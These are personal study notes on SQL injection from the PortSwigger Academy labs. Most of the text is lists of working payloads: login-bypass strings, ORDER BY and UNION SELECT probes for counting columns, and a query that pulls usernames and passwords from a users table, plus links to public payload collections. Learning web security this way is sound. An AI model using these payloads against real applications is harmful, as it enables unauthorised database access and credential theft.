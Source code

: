 # burpSuite
aka Notes from PortSwigger Academy

## SQLi

- ```--``` comments out everything after
- ```+``` URL encoding for simple space 
- ```%20``` Same as above ... URL encoding for simple space 
- ```%27``` means this bad boy ```'```

Payloads that just worked somewhere:
```
'--
admin'--
administrator'-- 
' OR 1=1 -- 
OR 1=1 -- 
```
So how many collumns do we have? 
```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 

' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 

' UNION SELECT NULL-- 
' UNION SELECT NULL, NULL-- 
' UNION SELECT NULL, NULL, NULL-- 

' UNION SELECT NULL FROM DUAL-- 
' UNION SELECT NULL, NULL FROM DUAL-- 
' UNION SELECT NULL, NULL, NULL FROM DUAL-- 


' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 

' UNION SELECT username, password FROM users-- 
```
- The payloads described use the double-dash comment sequence -- to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character # can be used to identify a comment. 

- [payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)
- [payloads2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
